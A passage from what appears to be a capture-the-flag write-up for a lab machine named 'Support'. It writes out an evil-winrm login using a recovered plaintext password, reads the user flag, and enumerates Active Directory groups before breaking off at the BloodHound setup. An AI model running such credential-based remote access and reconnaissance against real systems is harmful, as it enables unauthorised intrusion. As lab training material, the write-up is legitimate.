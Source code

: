 <div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-exclamation-triangle mr-2 text-amber-500"></i>
        <strong>Plaintext password found\!</strong> Remote Management Users group allows WinRM connection.
    </p>
</div>


## 💻 Phase 6 — Initial WinRM Access

Connection:

```bash
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Shell obtained as support@support.htb\!
    </p>
</div>

User flag:

```powershell
type C:\Users\Support\Desktop\user.txt
```


## 🧭 Phase 7 — Domain Enumeration

List domain:

```powershell
Get-ADDomain
```

User groups:

```powershell
whoami /groups
```

Notable result: **Shared Support Accounts** (non-standard group)

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-search mr-2 text-amber-500"></i>
        <strong>Hypothesis:</strong> This custom group potentially holds elevated privileges on the domain.
    </p>
</div>


## 🕸️ Phase 8 — BloodHound Analysis

### Start Neo4j and BloodHound
